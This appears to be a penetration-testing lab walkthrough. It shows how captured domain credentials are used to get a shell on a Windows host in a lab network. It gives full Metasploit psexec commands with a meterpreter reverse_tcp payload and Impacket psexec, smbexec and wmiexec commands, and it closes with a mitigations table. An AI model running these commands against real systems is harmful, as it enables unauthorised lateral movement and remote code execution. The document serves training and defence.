




# Gaining a Shell

After a successful credential capture and crack, the attacker has everything needed to authenticate to the target:

| Data               | Value         |
| ------------------ | ------------- |
| Target IP          | `10.0.0.50`   |
| Domain             | `MO`          |
| Username           | `k.lamar`     |
| Plaintext password | `Password1!!` |

With valid domain credentials, the next step is to leverage them for remote code execution — provided the account has local administrator rights on the target machine. Two common tools for this are **Metasploit** and **Impacket**.

A quick nmap scan confirms SMB (port 445) is open on the target before proceeding:



---

## Metasploit — psexec Module

Metasploit's `psexec` module authenticates over SMB and uploads a payload that grants a reverse shell. The account used must have local admin rights on the target.

```bash
msfconsole
```

```bash
# Search for and select the psexec module
search psexec
use exploit/windows/smb/psexec

# Configure the target
set RHOSTS 10.0.0.50
set SMBDomain mo.local
set SMBUser k.lamar
set SMBPass Password1!!

# Set payload and target architecture
set payload windows/x64/meterpreter/reverse_tcp
set target 2        # Native upload

run
```



---

## Impacket

Impacket offers three tools for remote execution over SMB/WMI. Each connects using the same credential format:

```bash
impacket-<tool> DOMAIN/Username:'Password'@TARGET_IP
```

### psexec

Uploads a random binary to the `ADMIN$` share, registers it as a Windows service, and returns an `NT AUTHORITY\SYSTEM` shell.

```bash
impacket-psexec mo/k.lamar:'Password1!!'@10.0.0.50
```



### smbexec

Executes commands by creating a temporary Windows service on each call — no binary is dropped to disk, but it generates significant event log noise.

```bash
impacket-smbexec mo/k.lamar:'Password1!!'@10.0.0.50
```



### wmiexec

Uses Windows Management Instrumentation (WMI) rather than SMB services. Quieter and returns a shell as the authenticating user rather than SYSTEM.

```bash
impacket-wmiexec mo/k.lamar:'Password1!!'@10.0.0.50
```


> **Note:** In this lab, `wmiexec` failed against this target. When one tool doesn't work, fall back to `psexec` or `smbexec` — different targets respond differently depending on their configuration.

---

## Tool Comparison

| Tool      | Execution Method                              | Shell Privilege       | Noise Level | Binary Dropped |
| --------- | --------------------------------------------- | --------------------- | ----------- | -------------- |
| `psexec`  | SMB — installs a service + uploads binary     | `NT AUTHORITY\SYSTEM` | 🔴 High     | Yes            |
| `smbexec` | SMB — creates a temporary service per command | `NT AUTHORITY\SYSTEM` | 🔴 High     | No             |
| `wmiexec` | WMI                                           | Authenticating user   | 🟡 Medium   | No             |

**Rule of thumb:** Start with `psexec` for reliability. Use `wmiexec` when you want a quieter foothold and don't need SYSTEM-level access immediately.

---

## Mitigations

| Defensive Control                              | Mitigation Details                                                                                                                                        |
| :--------------------------------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Enforce Least Privilege**                    | Ensure standard domain user accounts do not belong to local `Administrators` groups on endpoints unless architecturally required.                         |
| **Restrict SMB and WMI Lateral Movement**      | Enable Windows Defender Firewall to block inbound connections on **Port 445 (SMB)** and **Port 135 (RPC/WMI)** between internal workstation subnets.      |
| **Monitor Service Creation Events**            | Audit systems for **Windows Event ID 7045** (A new service was installed) featuring randomized or suspicious service names typical of Impacket execution. |
| **Deploy Endpoint Detection & Response (EDR)** | Configure EDR solutions to flag or terminate anomalous child processes originating from `services.exe` or `wmiprvse.exe`.                                 |
